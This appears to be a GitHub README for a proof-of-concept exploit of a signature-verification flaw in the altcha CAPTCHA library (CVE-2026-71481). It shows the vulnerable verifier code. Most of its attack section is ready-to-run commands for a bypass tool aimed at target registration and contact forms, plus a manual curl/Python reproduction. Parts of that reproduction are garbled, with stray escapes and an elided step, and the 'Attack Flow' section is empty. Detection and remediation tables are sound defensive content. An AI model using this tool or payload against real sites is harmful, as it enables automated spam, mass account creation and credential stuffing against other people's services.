

<div align="center">

# CVE-2026-71481

### altcha — CAPTCHA HMAC Signature Bypass


</div>

---

## Overview

altcha <= 0.5.x is a proof-of-work CAPTCHA alternative. The server-side verifier
fails to reject challenge responses that are missing the `signature` field, or that
carry an empty / zero-byte HMAC. An attacker can solve the proof-of-work
(computationally cheap) while omitting the HMAC signature that proves the challenge
was issued by the legitimate server, bypassing bot protection with a single HTTP
request.

| Field | Value |
|---|---|
| **CVE** | CVE-2026-71481 |
| **CVSS 3.1** | `7.5 High` — `AV:N/AC:L/PR:N/UI:N/S:U/C:N/I:H/A:N` |
| **CWE** | CWE-347 (Improper Verification of Cryptographic Signature) |
| **Affected** | altcha-lib (npm / PyPI) <= 0.5.x |
| **Patch** | v0.6.0 |
| **Auth Required** | None |
| **Disclosed** | 2026-11-19 |

---

## Vulnerability Details

The challenge verifier in `verifyServerSignature()` does not assert that
`signature` is present and non-empty before comparing:

```javascript
// VULNERABLE — altcha-lib/src/index.js (<=0.5.x)
async function verifySolution(payload, hmacKey) {
  const json   = JSON.parse(atob(payload));
  const { algorithm, challenge, number, salt, signature } = json;
  // ...verify PoW...
  if (signature) {   // CWE-347: truthy check — empty string or absent field skips HMAC
    const expected = await hmac(algorithm, hmacKey, challenge + salt);
    if (expected !== signature) return false;
  }
  return true;   // accepts bypass when signature is absent/empty
}
```

A bypass payload contains a valid PoW solution but omits the `signature` key (or
sets it to `""`), passing the truthy guard and returning `true`.

---

## Attack Flow



---

## PoC Usage

### Setup

```bash
pip install -r requirements.txt
```

### Scenario 1 — Single request bypass (contact form)

```bash
python poc.py -u https://target.com/contact \
  --challenge-url https://target.com/altcha-challenge \
  --form-field altcha
```

### Scenario 2 — Custom form submission

```bash
python poc.py -u https://target.com/register \
  --challenge-url https://target.com/api/challenge \
  --form-field altcha_token \
  --extra-fields "email=test@test.com&name=Bot"
```

### Scenario 3 — Standalone bypass payload generation

```bash
python poc.py --generate-only --challenge-url https://target.com/altcha-challenge
```

### Scenario 4 — Fingerprint / check only

```bash
python poc.py -u https://target.com/contact --check-only
```

### Manual reproduction

```bash
# 1. Fetch a challenge
CHALLENGE=$(curl -s https://TARGET/altcha-challenge)
echo $CHALLENGE

# 2. Decode and solve PoW
python3 -c "
import base64, json, hashlib

challenge_b64 = '$CHALLENGE'
data = json.loads(base64.b64decode(challenge_b64))
salt, challenge, algo = data['salt'], data['challenge'], data['algorithm']

# Solve PoW (find number where hash starts with enough zeros)
for n in range(100000):
    h = hashlib.sha256(f'{salt}{n}'.encode()).hexdigest()
    if h == challenge:
        print(json.dumps({'algorithm':algo,'challenge':challenge,
                          'number':n,'salt':salt}))  # NO signature field
        break
"

# 3. Submit without signature
PAYLOAD=\$(python3 -c '...(from above)...' | base64)
curl -s -X POST https://TARGET/contact \
  -d \"altcha=\$PAYLOAD&email=bot@bot.com\"
```

### Available flags

| Flag | Description |
|---|---|
| `-u / --url` | Target form submission URL |
| `--challenge-url URL` | URL that issues altcha challenges |
| `--form-field STR` | Form field name carrying the altcha payload (default: `altcha`) |
| `--extra-fields STR` | URL-encoded extra POST fields |
| `--generate-only` | Generate and print bypass payload, do not submit |
| `--check-only` | Probe for altcha usage, no bypass attempt |
| `--proxy URL` | HTTP proxy |
| `--insecure` | Disable TLS verification |
| `-o / --output FILE` | Save results to JSON |
| `--timeout INT` | Request timeout (default: `15`) |
| `--max-iter INT` | Max PoW iterations (default: `1000000`) |
| `-v / --verbose` | Verbose output |

---

## Detection

| Indicator | Notes |
|---|---|
| altcha payload with absent or empty `signature` field | Server-side assertion before `verifySolution` |
| High-volume submissions with identical `salt` values | Rate limiting / challenge reuse detection |
| PoW solutions arriving in under 100 ms | Timing anomaly detection (legitimate browser solves take 0.5–3 s) |

---

## Impact

A bot or automated attacker can bypass altcha CAPTCHA protection on any form or
endpoint, enabling mass account registration, spam submission, credential stuffing,
and scraping at scale.

---

## Remediation

| Action | Detail |
|---|---|
| **Upgrade** | Update altcha-lib to v0.6.0 (strict signature assertion) |
| **Assert signature** | In custom integrations, assert `typeof signature === 'string' && signature.length > 0` |
| **One-time challenges** | Store issued challenge hashes and reject reuse |

---

## References

- [altcha-lib npm — v0.6.0 changelog](https://www.npmjs.com/package/altcha-lib)
- [CWE-347: Improper Verification of Cryptographic Signature](https://cwe.mitre.org/data/definitions/347.html)

---

> **Disclaimer:** Published for authorised security research only. Use exclusively
> on systems you own or have explicit written permission to test.
